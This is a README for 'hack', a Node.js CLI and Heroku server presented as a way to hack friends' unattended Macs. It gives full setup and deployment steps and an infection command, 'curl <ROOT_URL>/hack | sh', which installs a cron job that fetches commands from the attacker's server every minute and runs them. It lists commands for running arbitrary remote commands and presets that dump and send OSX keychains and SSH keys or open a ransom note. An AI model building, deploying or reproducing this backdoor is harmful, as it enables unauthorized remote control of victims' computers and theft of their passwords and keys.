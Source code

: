 # Hack

This project helps you hack your friends. All you need to do is wait for them to leave their computer unlocked, open up Terminal, and run a single curl command.

[Check out this blog post for more details about how this works](TODO) or jump right in below.

## Getting Started

Clone, install, and link so you can use the `hack` cli tool.

```sh
git clone https://github.com/ccorcos/hack.git
git remote remove origin
cd hack
npm install
npm link
```

If you've never used Heroku before, [signup here](https://signup.heroku.com/) (it's free!) and set up their cli tool on your machine.

```sh
brew install heroku-toolbelt
heroku login
```

Create a Heroku app with an easy name to remember.

```sh
heroku create hacker-chet
```

The following command will get the root url for your Heroku website and put it in your `package.json`. This way the server can inject a root url into the shell scripts.

```sh
npm run init
```

You can stand up the server locally if you want do you can hack yourself and test things out.

```sh
npm start
```

Or you can deploy to Heroku.

```sh
npm run deploy
```

Now you're ready to hack!

## Infecting

To hack someone, run this in their Terminal:

```sh
curl <ROOT_URL>/hack | sh
```

`ROOT_URL` is the specific path to your application. When you're testing locally, this will be `localhost:5000` and when you deploy to Heroku, it will be something like `<APP_NAME>.herokuapp.com`.

What this does is sets up a cron job to ping the `/env/live` endpoint every minute and pipes the result to `sh`. And Heroku gives you HTTPS for free so I wouldn't be too worried about hacking yourself with it. Everything else happens at the commandline using the `hack` cli tool.

## API

- `hack deploy` - deploy your latest changes to Heroku.
- `hack logs` - view your server logs

The following commands are specific to environments and must be followed with a deploy for the changes to be applied to your server.

- `hack <env> exec <cmd>` - execute a command on the remote machine. e.g. `hack live exec "say hello"`
- `hack <env> cron <job>` - add a cronjob to the remote machine [[ref](http://www.nncron.ru/help/EN/working/cron-format.htm)]. e.g. `hack live cron "0 8 * * * say 'good morning'"`
- `hack <env> dump <cmd>` - execute a command on the remote machine and log the result.
- `hack <env> preset <name>` - check the source to see what presets there are and what they do.
- `hack <env> interval <time>` - change the ping interval. options are `1m`, `1d`, `1m`, `1y`
- `hack <env> reset` - reset all cronjobs and ping every minute
- `hack <env> rename <name>` - switch the env that gets pinged
- `hack <env> forget` - removed the ping cronjob to disconnect with the remote machine

## Presets
- `hack <env> preset 420` - say at 4:20PM every day 'its foe 20, ye better be toke-in'
- `hack <env> preset cronjobs` -  dump and send current cron jobs
- `hack <env> preset desktop <image_url>` - set desktop background to image
- `hack <env> preset passwords` - dump and send OSX keychains
- `hack <env> preset ransom <message>` - Opens TextEdit with ransom message
- `hack <env> preset ssh` - dump and send SSH keys

## PS

[A nice resource on how to make a Node.js CLI app.](http://blog.npmjs.org/post/118810260230/building-a-simple-command-line-tool-with-npm)
